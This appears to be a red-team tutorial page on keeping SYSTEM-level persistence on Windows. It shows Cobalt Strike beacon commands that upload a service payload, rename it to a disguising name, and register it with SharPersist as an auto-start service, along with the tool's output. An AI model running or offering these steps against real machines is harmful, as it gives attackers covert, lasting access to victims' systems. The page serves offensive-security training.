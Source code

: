 # Elevated SYSTEM Persistence



## Introduction

SYSTEM users are often restricted from connecting to web proxies due to a combination of security and operational reasons. By restricting proxy connections, Windows reduces the risk of SYSTEM account abuse. <mark style="color:red;">**Note**</mark>: For maintaining persistence, we will not be able to use HTTP connections. P2P or DNS will have to be used instead.

## Windows Services

With SYSTEM access, we'll be able to create our own service. We can escalate privileges with [SharPersist](https://github.com/mandiant/SharPersist).

#### Upload Service Payload

```powershell
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe totally-fine-svc.exe
```

#### Execute Privilege Escalation - SharPersist

```powershell
beacon> execute-assembly C:\Tools\SharPersist.exe -t service -c "C:\Windows\totally-fine-svc.exe" -n "totally-fine-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\totally-fine-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: totally-fine-svc
```

This will create a stopped service with start type set to AUTO\_START. Which will start the service when the machine is rebooted.

